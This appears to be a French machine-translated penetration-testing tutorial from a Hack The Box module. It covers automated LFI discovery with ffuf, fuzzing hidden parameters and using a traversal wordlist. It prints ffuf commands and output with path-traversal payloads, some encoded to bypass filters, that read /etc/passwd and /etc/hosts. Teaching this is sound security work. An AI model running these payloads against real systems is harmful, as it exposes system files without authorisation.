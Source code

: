 Numérisation automatisée
==================

Il est essentiel de comprendre comment fonctionnent les attaques par inclusion de fichiers et comment nous pouvons créer manuellement des charges utiles avancées et utiliser des techniques personnalisées pour atteindre l'exécution de code à distance. En effet, dans de nombreux cas, pour que nous puissions exploiter la vulnérabilité, elle peut nécessiter une charge utile personnalisée correspondant à ses configurations spécifiques. De plus, lorsqu'il s'agit de mesures de sécurité telles qu'un WAF ou un pare-feu, nous devons appliquer notre compréhension pour voir comment une charge utile / un personnage spécifique est bloqué et tenter de créer une charge utile personnalisée pour la contourner.

Nous n'avons peut-être pas besoin d'exploiter manuellement la vulnérabilité LFI dans de nombreux cas triviaux. Il existe de nombreuses méthodes automatisées qui peuvent nous aider à identifier et exploiter rapidement les vulnérabilités LFI triviales. Nous pouvons utiliser des outils de fuzzing pour tester une énorme liste de charges utiles LFI courantes et voir si l'une d'entre elles fonctionne, ou nous pouvons utiliser des outils LFI spécialisés pour tester ces vulnérabilités. C'est ce dont nous allons discuter dans cette section.

* * * * *

Paramètres de fuzzing
------------------

Les formulaires HTML que les utilisateurs peuvent utiliser sur le front-end de l'application Web ont tendance à être correctement testés et bien protégés contre les différentes attaques Web. Cependant, dans de nombreux cas, la page peut avoir d'autres paramètres exposés qui ne sont liés à aucun formulaire HTML, et par conséquent, les utilisateurs normaux n'y accéderaient jamais ou ne causeraient pas de dommages involontairement. C'est pourquoi il peut être important de fuzzer les paramètres exposés, car ils ont tendance à ne pas être aussi sûrs que les paramètres publics.

Le module [Attaquer les applications Web avec Ffuf](https://academy.hackthebox.com/module/details/54) explique en détail comment nous pouvons fuzzer les paramètres `GET`/`POST` . Par exemple, nous pouvons fuzzer la page pour les paramètres `GET` courants, comme suit :

```
dsgsec@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index. php?FUZZ=valeur' -fs 2287

...COUPER...

  :: Méthode : GET
  :: URL : http://<SERVER_IP>:<PORT>/index.php?FUZZ=value
  :: Liste de mots : FUZZ : /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt
  :: Suivre les redirections : false
  :: Calibrage : faux
  :: Délai d'attente : 10
  :: Fils : 40
  :: Matcher : état de la réponse : 200 204 301 302 307 401 403
  :: Filtre : Taille de la réponse : xxx
________________________________________________

langue [Statut : xxx, Taille : xxx, Mots : xxx, Lignes : xxx]

```

Une fois que nous avons identifié un paramètre exposé qui n'est lié à aucun des formulaires que nous avons testés, nous pouvons effectuer tous les tests LFI abordés dans ce module. Ceci n'est pas propre aux vulnérabilités LFI, mais s'applique également à la plupart des vulnérabilités Web abordées dans d'autres modules, car les paramètres exposés peuvent également être vulnérables à toute autre vulnérabilité.

Astuce : Pour une analyse plus précise, nous pouvons limiter notre analyse aux paramètres LFI les plus populaires trouvés sur ce [lien](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters) .

* * * * *

Listes de mots LFI
--------------

Jusqu'à présent, dans ce module, nous avons créé manuellement nos charges utiles LFI pour tester les vulnérabilités LFI. En effet, les tests manuels sont plus fiables et peuvent trouver des vulnérabilités LFI qui pourraient ne pas être identifiées autrement, comme indiqué précédemment. Cependant, dans de nombreux cas, nous pouvons souhaiter exécuter un test rapide sur un paramètre pour voir s'il est vulnérable à une charge utile LFI commune, ce qui peut nous faire gagner du temps dans les applications Web où nous devons tester diverses vulnérabilités.

Il existe un certain nombre de [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) que nous pouvons utiliser pour cette analyse. Une bonne liste de mots est [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), car elle contient divers contournements et fichiers communs, de sorte qu'il facilite l'exécution de plusieurs tests à la fois. Nous pouvons utiliser cette liste de mots pour flouter le paramètre `?language=` que nous avons testé tout au long du module, comme suit :

```
dsgsec@htb[/htb]$ ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language= FUZZ' -fs 2287

...COUPER...

  :: Méthode : GET
  :: URL : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
  :: Liste de mots : FUZZ: /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
  :: Suivre les redirections : false
  :: Calibrage : faux
  :: Délai d'attente : 10
  :: Fils : 40
  :: Matcher : état de la réponse : 200 204 301 302 307 401 403
  :: Filtre : Taille de la réponse : xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Statut : 200, Taille : 3661, Mots : 645, Lignes : 91]
../../../../../../../../../../../../etc/hosts [Statut : 200, Taille : 2461, Mots : 636, lignes : 72]
...COUPER...
../../../../etc/passwd [Statut : 200, Taille : 3661, Mots : 645, Lignes : 91]
../../../../../etc/passwd [Statut : 200, Taille : 3661, Mots : 645, Lignes : 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Statut : 200, Taille : 3661, Mots : 645, Lignes : 91]
..%2F..%2F..%2F..%2F..%2F.